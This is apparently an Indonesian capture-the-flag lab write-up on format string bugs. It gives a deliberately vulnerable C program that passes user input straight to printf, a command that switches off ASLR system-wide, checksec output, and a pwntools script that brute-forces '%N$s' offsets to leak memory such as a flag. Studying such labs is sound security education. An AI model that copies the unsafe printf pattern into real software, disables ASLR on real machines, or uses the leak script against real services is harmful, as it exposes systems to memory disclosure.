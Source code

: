 [x] NO Canary ~ -fno-stack-protector
[x] PIE ~ tanpa -no-pie
[x] NX ~ tanpa -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

vuln_program.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("We will evaluate any format string you give us with printf().");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("flag.txt is missing!\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

kita kompile dengan cara seperti ini 

```bash
gcc -g -m32 -fstack-protector -o vuln32 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

kemudian lakukan checksec

```bash
$checksec vuln32
Arch:     i386-32-little    
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

untuk membaca isi dari alamat memori bisa dengan melakukan brute force alamat dari 1 sampai 100

referensi yang menjelaskan 
https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/

untuk menampilkan isi dari alamat memory

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./jajal', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        # Receive the response
        result = p.recvuntil(b'> ')
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```

